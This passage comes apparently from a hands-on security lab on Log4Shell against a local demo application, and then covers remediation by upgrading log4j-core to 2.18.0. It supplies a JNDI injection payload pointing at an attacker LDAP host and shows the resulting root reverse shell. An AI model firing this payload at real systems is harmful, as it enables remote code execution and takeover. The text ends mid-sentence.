 3. Navigate to [http://localhost:8080](http://localhost:8080) in your web browser.
4. Enter the special payload `${jndi:ldap://exploit:1389/Exploit}` into one of the fields and click 'register'.

You will note this time, the page doesn't immediately redirect to the success page, what's happened? Check your listener terminal window you will see something similar to;

```
Connection from 172.22.0.2 39424 received!
```

In the listener shell if we type `ls` we can start to see the contents of the application server!  We're in!

See what privileges we have. Run `whoami` command:

```
whoami
root
```

We can see that we have root access.

### Summary

In this section we;

- Exploited log4j and got remote code execution within our application.
- Confirmed the vulnerability identified and demonstrated the risk.

## 4. Remediating Vulnerabilities (Outcome 2.3)

### Patching/Updating Software Dependencies

Often the vendor for the software dependency you use in your application has issued a patch or updated the library to remediate the vulnerability.  However, you still need to update your application to use this new or patched version.

Having a dependency management strategy is key to ensure not only the library is up-to-date allowing you to inexpensively use new features a vendor provides, but also known vulnerabilities are fixed over time.

You might have noticed in the output of `grype` a `FIXED` column, which provides helpful guidance on a potential dependency version to remeidate the issue.

In the case of [log4j-core](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core), the package repository also indicates vulnerabilities associated with versions of the library.  We can see;

>2.18.x | 2.18.0 | vulnerabilities (none)

Version 2.18.0 is likely a good candidate for us to upgrade to.

#### How do we update our dependency versions?

Going back into the `<dependencies>...</dependencies>` of our `app/pom.xml` file and changing the `<version>2.12.0</version>` line to `<version>2.18.0</version>` and should look similar to;
